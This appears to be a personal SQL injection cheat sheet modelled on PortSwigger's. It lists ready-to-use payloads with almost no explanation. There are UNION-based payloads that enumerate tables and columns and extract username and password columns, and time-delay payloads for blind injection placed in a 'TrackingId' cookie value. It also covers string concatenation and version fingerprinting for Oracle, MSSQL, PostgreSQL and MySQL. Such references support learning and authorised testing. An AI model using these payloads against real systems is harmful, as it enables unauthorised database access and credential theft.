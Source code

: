 # [Portswigger SQLi CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Leak Database Contents
### Oracle
	' UNION SELECT NULL,NULL FROM DUAL-- -
	' UNION SELECT <TABLE_NAME>, NULL FROM all_tables-- -
	' UNION SELECT <COLUMN_NAME>, NULL FROM all_tab_columns WHERE TABLE_NAME=<TABLE_NAME> -- -
	' UNION SELECT USERNAME, PASSWORD FROM <TABLE_NAME> -- -
### Others
	' UNION SELECT NULL, NULL-- -
	' UNION SELECT <TABLE_NAME>, NULL FROM INFORMATION_SCHEMA.TABLES-- -

## String Concatenation
### Oracle
	'foo'||'bar'
### Microsoft
	'foo'+'bar'
### PostgreSQL
	'foo'||'bar'
### MySQL
	'foo' 'bar' (space between)
	CONCAT('foo','bar')
### Concat Two Results Into One Column
	' UNION SELECT COLUMN1 || '~' || COLUMN2 FROM TABLE-- -

## Conditional Time Delays
### Oracle
	TrackingId=abc'||(SELECT CASE WHEN 1=1 THEN DBMS_LOCK.SLEEP(10) ELSE NULL END FROM dual)-- 
### Microsoft SQL
	TrackingId=abc'; WAITFOR DELAY '0:0:10'-- 
	TrackingId=abc'; IF (1=1) WAITFOR DELAY '0:0:10'-- 
### MySQL
	TrackingId=xyz' OR SLEEP(10)-- 
	TrackingId=xyz'||(SELECT SLEEP(10))-- 
### PostgreSQL
	TrackingId=xyz'||(SELECT pg_sleep(10))-- 
	TrackingId=xyz'||(SELECT CASE WHEN 1=1 THEN pg_sleep(10) ELSE pg_sleep(0) END)-- 

## Substring Function
### Oracle
	SUBSTR('foobar',4,2)

### Others
	SUBSTRING('foobar',4,2)

## DB Version
### Oracle
	SELECT banner FROM v$version
	SELECT version FROM v$instance

### Microsoft
	SELECT @@version

### PostgreSQL
	SELECT version()

### MySQL
	SELECT @@version

